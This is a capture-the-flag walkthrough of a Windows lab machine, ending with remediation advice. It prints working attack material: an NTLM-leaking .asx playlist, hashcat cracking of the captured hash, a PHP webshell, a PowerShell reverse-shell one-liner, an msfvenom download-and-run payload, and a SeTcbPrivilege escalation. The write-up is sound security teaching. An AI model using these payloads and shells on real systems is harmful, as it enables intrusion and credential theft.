

|Property|Value|
|---|---|
|**OS**|Windows|
|**Difficulty**|Medium|
|**Release Date**|2025-09-04|
|**State**|Active|
|**IP**|10.129.234.67|
|**Techniques**|forced NTLM authentication, hash cracking, directory junction abuse, PHP webshell, SeTcbPrivilege abuse|
|**Tags**|#web #privesc #windows #ntlm|

---

## Summary

Media is a medium Windows machine hosting a job-application form that accepts a "video introduction" upload. The upload feature is built on old Windows Media Player playlist formats (`.wax`/`.asx`), which can be abused to force the server into making an outbound SMB request, leaking an NTLMv2 hash that is captured with Responder and cracked with hashcat, granting SSH access as `enox`. A backend script auto-opens every uploaded file in Windows Media Player, and as `enox` is possible to notice that the uploads land in `C:\Windows\Tasks\Uploads\<random>\`, a location separate from the actual web root (`C:\xampp\htdocs`). By deleting one of these upload folders and replacing it with a directory junction pointing at `htdocs`, a subsequent upload of a PHP webshell lands directly inside the website's document root, granting code execution as `nt authority\local service`. The shell is upgraded to a full Meterpreter session, and privilege escalation is achieved by abusing an unusual `SeTcbPrivilege` primitive to spawn a SYSTEM-level service that adds `enox` to the local Administrators group.

---

## Enumeration

```
echo '10.129.234.67 media.htb' | sudo tee -a /etc/hosts
```

### Nmap Scan

```
nmap -sC -sV media.htb --open
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-26 08:43 EDT
Nmap scan report for media.htb (10.129.234.67)
Host is up (0.031s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_9.5 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: ProMotion Studio
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: MEDIA
|   NetBIOS_Domain_Name: MEDIA
|   NetBIOS_Computer_Name: MEDIA
|   DNS_Domain_Name: MEDIA
|   Product_Version: 10.0.20348
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 21.74 seconds
```

The box runs SSH on Windows, an Apache/PHP web server (XAMPP on Windows, given the version banner), and RDP. `Product_Version: 10.0.20348` corresponds to Windows Server 2022.

### Service Enumeration

```
curl -I http://media.htb
HTTP/1.1 200 OK
Server: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
X-Powered-By: PHP/8.1.17
Content-Type: text/html; charset=UTF-8
```

The site is "ProMotion Studio". Scrolling down reveals a job-application form, "Join Our Team", that accepts a video file **compatible with Windows Media Player**:


An upload feature that explicitly mentions Windows Media Player, rather than a normal video container, is the first hint: WMP-native playlist formats (`.asx`, `.wax`, `.wvx`, `.wmx`) can reference a remote URL, including a UNC path, and WMP will fetch it automatically when the file is opened.

---

## Foothold

### Vulnerability — Forced NTLM Authentication via a Malicious Playlist File

A `.asx`/`.wax` file is just an XML playlist; the `<ref href="...">` tag can point anywhere, including a `file://` UNC path on an attacker-controlled host. If something on the server automatically opens the uploaded file in Windows Media Player, WMP will try to resolve that UNC path, causing the Windows host to authenticate over SMB to the attacker's machine, leaking the local service account's NTLMv2 hash in the process. This is the same class of attack popularized by tools like `ntlm_theft`, which generate several file types that trigger this kind of forced authentication (`.scf`, `.lnk`, `.url`, Office documents, and WMP playlists among them).

### Exploitation

Payloads are generated with [ntlm_theft](https://github.com/Greenwolf/ntlm_theft):

```shell
python3 ntlm_theft.py -g all -s 10.10.15.80 -f test
...
Created: test/test.asx (OPEN)
Created: test/test.wax (OPEN)
...
Generation Complete.
```

The relevant payload, `test.asx`, simply references an SMB path on the attacker's IP:

```xml
<asx version="3.0">
   <title>Leak</title>
   <entry>
      <title></title>
      <ref href="file://10.10.15.80/leak/leak.wma"/>
   </entry>
</asx>
```

Responder is started to catch the resulting SMB authentication attempt:

```
sudo responder -I tun0
```

The file is uploaded through the "Join Our Team" form:


A short while later, Responder captures a NetNTLMv2 hash for a user `enox`:

```
[SMB] NTLMv2-SSP Client   : 10.129.234.67
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : enox::MEDIA:39d3ee53b1945523:815747E53BD726D4DD787A4C34EF2A64:0101...
```

### Hash Cracking

```
hashcat -m 5600 enox.hash /usr/share/wordlists/rockyou.txt
...
ENOX::MEDIA:...:1234virus@

Status...........: Cracked
```

Credentials recovered: `enox:1234virus@`

### SSH Access as `enox`

```
ssh enox@media.htb
enox@media.htb's password:
Microsoft Windows [Version 10.0.20348.4052]
enox@MEDIA C:\Users\enox>
```

---

## User Flag

```
enox@MEDIA C:\Users\enox\Desktop>type user.txt
faeaca8e85a7a80cf5f07bd27f4538ec
```

---

## Privilege Escalation

### Enumeration

`enox`'s home directory contains a script that explains why the uploaded playlist got opened automatically:

```
enox@MEDIA c:\Users\enox>tree /f .
C:\USERS\ENOX
├───Desktop
│       user.txt
│       winpeas.exe
├───Documents
│       review.ps1
...
```

`review.ps1` polls a queue file (`C:\Windows\Tasks\Uploads\todo.txt`) and, for every pending entry, opens the corresponding uploaded file with Windows Media Player, waits 15 seconds, then kills the process:

```powershell
$todofile="C:\\Windows\\Tasks\\Uploads\\todo.txt"
$mediaPlayerPath = "C:\Program Files (x86)\Windows Media Player\wmplayer.exe"

while($True){
    if ((Get-Content -Path $todofile) -eq $null) {
        Sleep 60
    } else {
        $result = Get-Values -FilePath $todofile
        ...
        Start-Process -FilePath $mediaPlayerPath -ArgumentList "C:\Windows\Tasks\uploads\$randomVariable\$filename"
        Start-Sleep -Seconds 15
        Stop-Process -Name "wmplayer" -Force
        UpdateTodo -FilePath $todofile
        Sleep 15
    }
}
```

This confirms the foothold mechanism and also discloses where uploads actually live: **`C:\Windows\Tasks\Uploads\<random-folder>\<filename>`**, each upload getting its own randomly-named subfolder:

```
Directory of C:\Windows\Tasks\Uploads
09/27/2026  04:35 AM    <DIR>          3bc2e7342357992dc18d4c02f3fb48b7
09/27/2026  04:34 AM    <DIR>          ae9dc0285a79ec82ea1e2bfc009adf49
09/27/2026  03:50 AM    <DIR>          d41d8cd98f00b204e9800998ecf8427e
```

This upload path is **not** the website's document root — the site itself is served from XAMPP's `C:\xampp\htdocs`, a completely separate directory. Since `review.ps1` only ever opens files with Windows Media Player, uploading a `.php` webshell through the form does nothing on its own; it just lands, unreachable, inside one of these random `Uploads` subfolders.

### Directory Junction Abuse

`enox` has write access under `C:\Windows\Tasks\Uploads`, which means one of its subfolders can be deleted and replaced. On Windows, `mklink /J` creates a **directory junction**, effectively a symlink for folders: any application (including the upload handler) that later writes into that folder path is transparently redirected to wherever the junction actually points. By turning one of the upload subfolders into a junction that points at `C:\xampp\htdocs`, the next file uploaded to that same "random" folder is instead written straight into the website's web root, where PHP will happily execute it.

### Exploitation

An existing upload folder is removed and replaced with a junction to the web root:

```
enox@MEDIA c:\Windows\Tasks\Uploads>rmdir ae9dc0285a79ec82ea1e2bfc009adf49

enox@MEDIA c:\Windows\Tasks\Uploads>cmd /c mklink /J C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49 C:\xampp\htdocs
Junction created for C:\Windows\Tasks\Uploads\ae9dc0285a79ec82ea1e2bfc009adf49 <<===>> C:\xampp\htdocs
```

> The upload handler always reuses the same folder name for a given session/browser (hence the earlier `del`/`rmdir` on that exact folder), which is what makes it predictable enough to hijack.

A minimal PHP webshell is then uploaded through the same web form used for the foothold:

```php
<?php system($_GET['cmd']); ?>
```


Because that upload folder is now a junction pointing at `htdocs`, the file is written directly into the live web root and is immediately reachable over HTTP:

```
http://media.htb/webshell.php?cmd=whoami
```



```
nt authority\local service
```

### Getting a Shell

A PowerShell reverse shell one-liner is sent through the webshell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.80',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
nc -lvnp 9001
connect to [10.10.15.80] from (UNKNOWN) [10.129.234.67] 52864
whoami
nt authority\local service
```

### Upgrading to Meterpreter

A Meterpreter binary is generated and dropped through the existing shell:

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.80 LPORT=4445 -f exe -o update.exe
python3 -m http.server 8001
```

```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.15.80:8001/update.exe','C:\tmp\update.exe')"
.\update.exe
```

```
msf exploit(multi/handler) > run
[*] Meterpreter session 1 opened (10.10.15.80:4445 -> 10.129.234.67:52867)
```

Checking privileges confirms `SeTcbPrivilege` is present (though disabled) on the `local service` token, alongside the usual set for that account:

```
meterpreter > shell
c:\>whoami /all
...
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== ========
SeTcbPrivilege                Act as part of the operating system Disabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeCreateGlobalPrivilege       Create global objects               Enabled
```

`getsystem` fails outright, since none of Metasploit's built-in techniques apply here — the actual path forward is enabling and abusing `SeTcbPrivilege` directly.

### SeTcbPrivilege Abuse

`SeTcbPrivilege` ("Act as part of the operating system") lets a process authenticate as if it _were_ part of the trusted computing base, which can be leveraged to fabricate a SYSTEM-equivalent logon and use it to drive privileged operations such as creating and starting a service. The PoC used here re-enables the (disabled-by-default) privilege on the current token and hooks into the credential/service-control APIs to run an arbitrary command as SYSTEM via a temporary Windows service.

PoC used: [SeTcbPrivilege-Abuse](https://github.com/b4lisong/SeTcbPrivilege-Abuse)

```
meterpreter > upload TcbElevation-x64.exe
meterpreter > shell
C:\tmp>.\tcb.exe "C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add"
[+] SeTcbPrivilege enabled
[+] AcquireCredentialsHandleW hooked
[+] Connected to service control manager
[+] Created service 'AAATcb' with command 'C:\Windows\system32\cmd.exe /c net localgroup administrators enox /add'.
[+] Service deleted successfully.
```

Despite the tool reporting a timeout on `StartService`, the underlying command still executes — verified by checking group membership:

```
C:\tmp>net localgroup administrators
Members
-------------------------------------------------------------------------------
Administrator
enox
NT AUTHORITY\LOCAL SERVICE
```

`enox` is now a local Administrator.

---

## Root Flag

Re-connecting over SSH as `enox` picks up the new group membership:

```
ssh enox@media.htb
enox@MEDIA C:\Users\enox>whoami /groups
...
BUILTIN\Administrators   Alias   S-1-5-32-544   Mandatory group, Enabled by default, Enabled group, Group owner
```

```
enox@MEDIA C:\Users\Administrator\Desktop>type root.txt
7f174b2d3f5cdb5f1eb6e7cbe9e06ad7
```

---

## Remediation

- **Forced NTLM authentication via file upload:** Never allow an upload feature to accept legacy Windows Media Player playlist formats (`.asx`, `.wax`, `.wvx`, `.wmx`) or any file type capable of embedding a remote/UNC reference. Strip or reject these extensions and validate uploaded content by MIME type and file signature, not just extension.
- **Automated file opening on the server:** Do not automatically open user-supplied, untrusted files with a full-featured client application (Windows Media Player, Office, a browser) on a server. If preview/processing of uploads is required, do it in an isolated, network-restricted sandbox with outbound SMB/HTTP blocked.
- **NTLM authentication exposure:** Disable NTLM in favor of Kerberos where possible, and block outbound SMB (445/139) from workstations/servers to the internet to prevent hash leakage via forced authentication.
- **Weak/crackable password:** `enox`'s password was recoverable from a wordlist. Enforce a strong password policy across all accounts.
- **Predictable upload directories and unrestricted junction creation:** Do not let an unprivileged account create filesystem junctions/symlinks inside a directory that is later written to by a higher-privileged process. Store uploads with random, unpredictable, single-use directory names, and restrict `SeCreateSymbolicLinkPrivilege`-equivalent operations for low-privileged accounts.
- **Web root reachable from an unrelated, writable directory:** Uploaded files must never be capable of landing inside a web-served, script-executing directory. Store uploads outside of any web root, and disable script execution in upload directories.
- **`SeTcbPrivilege` present but exploitable while "Disabled":** A privilege being reported as disabled does not mean it can't be re-enabled and abused by a local process holding it. Strip unnecessary privileges from service accounts (`local service`, in this case) and follow the principle of least privilege for any account that faces untrusted input.

---

## References

- [ntlm_theft — Forced NTLM Authentication PoC Generator](https://github.com/Greenwolf/ntlm_theft)
- [Responder — LLMNR/NBT-NS/mDNS Poisoner](https://github.com/lgandx/Responder)
- [Microsoft Docs — Directory Junctions (`mklink /J`)](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/mklink)
- [SeTcbPrivilege-Abuse PoC](https://github.com/b4lisong/SeTcbPrivilege-Abuse)
- [HackTricks — Abusing Tokens / SeTcbPrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)